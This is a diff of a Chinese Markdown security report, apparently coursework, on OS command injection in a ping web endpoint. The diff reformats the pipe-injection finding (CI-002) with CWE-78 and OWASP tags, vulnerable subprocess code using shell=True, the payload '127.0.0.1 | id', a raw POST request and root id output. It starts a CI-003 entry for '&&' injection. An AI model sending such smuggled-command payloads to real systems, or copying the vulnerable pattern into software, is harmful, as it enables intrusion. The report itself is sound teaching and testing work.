

Before and after one commit to Dazzling1-LJY/LL, a Markdown page: Class01/命令注入漏洞检测报告.md, the part around one of its changes. Shown at 80% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/Class01/命令注入漏洞检测报告.md
+++ b/Class01/命令注入漏洞检测报告.md
@@ -209,14 +209,72 @@ uid=0(root) gid=0(root) groups=0(root)    ← 命令注入成功！
 
 ---
 
-##### 攻击向量 2：管道符注入
+### CI-002：命令注入（管道符）
 
 | 属性 | 内容 |
 |:-----|:------|
-| **攻击 Payload** | `127.0.0.1 | id` |
-| **实际执行命令** | `ping -c 3 127.0.0.1 | id` |
-| **攻击结果** | ✅ 成功执行 `id`（仅显示 id 结果，ping 输出被管道丢弃） |
+| **漏洞编号** | CI-002 |
+| **漏洞名称** | 命令注入 — 管道符 `\|` 分隔命令 |
+| **漏洞类型** | OS 命令注入（OS Command Injection） |
+| **CWE 编号** | CWE-78：Improper Neutralization of Special Elements used in an OS Command |
+| **OWASP 分类** | A03:2021 – Injection |
+| **风险等级** | 🔴 **严重** |
+| **漏洞位置** | `app.py` 第 ×× 行 `f"ping -c 3 {ip}"` + `shell=True` |
+
+#### 漏洞代码
+
+```python
+cmd = f"ping -c 3 {ip}"
+output = subprocess.check_output(cmd, shell=True, timeout=30, stderr=subprocess.STDOUT)
+```
+
+#### 漏洞详情
+
+管道符 `|` 在 Linux shell 中将前一个命令的输出作为后一个命令的输入。当 `ip` 中包含 `|` 时，shell 将管道符后的内容解释为新命令。与分号注入不同，管道注入会**丢弃正常 ping 命令的输出**，仅显示注入命令的执行结果。
+
+#### 攻击演示
+
+| 属性 | 内容 |
+|:-----|:------|
+| **攻击 Payload** | `127.0.0.1 \| id` |
+| **实际执行命令** | `ping -c 3 127.0.0.1 \| id` |
+| **攻击结果** | ✅ 成功执行（仅显示 uid=0，ping 输出被丢弃） |
+
+**攻击请求**：
+```
+POST /ping HTTP/1.1
+Content-Type: application/x-www-form-urlencoded
+
+ip=127.0.0.1+|+id
+```
+
+**生成的 shell 命令**：
+```bash
+ping -c 3 127.0.0.1 | id
+```
+
+**攻击结果**（成功 ✅）：
+```
+uid=0(root) gid=0(root) groups=0(root)
+```
+
+**截图区域**：
+
+> （在此处输入管道符注入的页面截图——仅显示 uid=0，无 ping 输出）
 
 ---
 
-##### 攻击向量 3：逻辑与注入
+### CI-003：命令注入（逻辑与）
+
+| 属性 | 内容 |
+|:-----|:------|
+| **漏洞编号** | CI-003 |
+| **漏洞名称** | 命令注入 — 逻辑与 `&&` 分隔命令 |
+| **漏洞类型** | OS 命令注入（OS Command Injection） |
+| **CWE 编号** | CWE-78：Improper Neutralization of Special Elements used in an OS Command |
+| **OWASP 分类** | A03:2021 – Injection |
+| **风险等级** | 🔴 **严重** |
+| **漏洞位置** | `app.py` 第 ×× 行 `f"ping -c 3 {ip}"` + `shell=True` |
+
+#### 漏洞代码
+
````
Also changed, not shown: other parts of Class01/命令注入漏洞检测报告.md (+98 -15 lines).
